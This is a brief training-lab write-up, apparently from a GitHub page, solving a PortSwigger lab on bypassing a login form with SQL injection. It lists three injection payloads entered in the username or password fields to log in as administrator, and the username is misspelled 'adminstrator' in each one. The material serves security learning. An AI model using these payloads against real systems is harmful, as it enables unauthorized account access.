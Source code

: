 # Lab: SQL injection vulnerability allowing login bypass

## Lab's description

This lab contains a SQL injection vulnerability in the login function.

**End goal:** Log in as `administrator` user.

## Solution

Go to My account page and login as adminstrator

Case 1:

`Username: adminstrator`

`Password: anything' OR 1=1--'`

Case 2:

`Username: adminstrator'--`

`Password: anything`

Case 3:

`Username: adminstrator' OR 1=1--`

`Password: anything`

**Source:** [Lab: Subverting application logic](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-subverting-application-logic/sql-injection/lab-login-bypass#)
